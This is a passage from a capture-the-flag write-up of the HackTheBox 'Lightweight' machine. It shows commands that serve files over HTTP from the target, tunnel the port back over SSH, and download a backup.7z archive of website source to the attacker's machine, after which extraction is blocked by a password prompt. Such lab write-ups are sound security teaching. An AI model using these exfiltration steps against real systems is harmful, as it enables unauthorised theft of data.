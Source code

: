 ```bash
python -m SimpleHTTPServer 8000
```

Then I start the tunnel on my attack machine using

```bash
ssh -N -L 8000:localhost:8000 "10.10.14.89"@lightweight.htb
```


And finally, I can copy the archive over to my attack machine using:

```bash
wget http://localhost:8000/backup.7z
```

Here it is on my attack machine:

![copied-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Lightweight/img/copied-15.png)


If we list the contents of the archive using `7za l backup.7z` we can see the source code for the website:

![list-7z-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Lightweight/img/list-7z-16.png)


Currently, we can't navigate towards `/var/www/html`, and read the files there because they are woned by the `apache` service account and we font have permissions. So it could be worth extracting these files nad having a look.


But when we try to extract the archvie we get prompted for credentials:

![7z-err-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Lightweight/img/7z-err-17.png)
